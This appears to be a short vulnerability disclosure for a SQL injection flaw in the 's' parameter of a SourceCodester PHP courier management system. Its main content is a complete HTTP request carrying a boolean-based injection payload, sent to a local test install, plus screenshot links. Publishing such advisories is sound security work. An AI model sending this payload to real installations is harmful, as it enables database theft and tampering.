 **BUG_Author:**

Rone

**Vendor:**

[SourceCodester](https://vuldb.com/?vendor.sourcecodester)

**Software:**

[Best courier management system project in php | SourceCodester](https://www.sourcecodester.com/php/16848/best-courier-management-system-project-php.html)

**Vulnerability File:**

index.php

**Description:**

Attackers can use SQL injection to bypass the authentication and authorization mechanisms of web applications and retrieve the content of the entire database. SQLi can also be used to add, modify, and delete records in a database, thereby affecting data integrity. In appropriate cases, attackers can also use SQLi to execute operating system commands, which can then be used to launch further attacks.

```
GET http://127.0.0.1/gaatitrack/?page=parcel_list&s=-1 or 3*2*1=6 and 1=1 --+ HTTP/1.1
Host: 127.0.0.1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close
```

![image-20231015135419799](https://github.com/GodRone/Courier-Management-System_SQL-injection/blob/main/Courier%20Management%20System_SQL%20injection.assets/image-20231015135207862.png)

![image-20231015135207862](https://github.com/GodRone/Courier-Management-System_SQL-injection/blob/main/Courier%20Management%20System_SQL%20injection.assets/image-20231015135419799.png)

![image-20231015135659359](https://github.com/GodRone/Courier-Management-System_SQL-injection/blob/main/Courier%20Management%20System_SQL%20injection.assets/image-20231015135659359.png)

















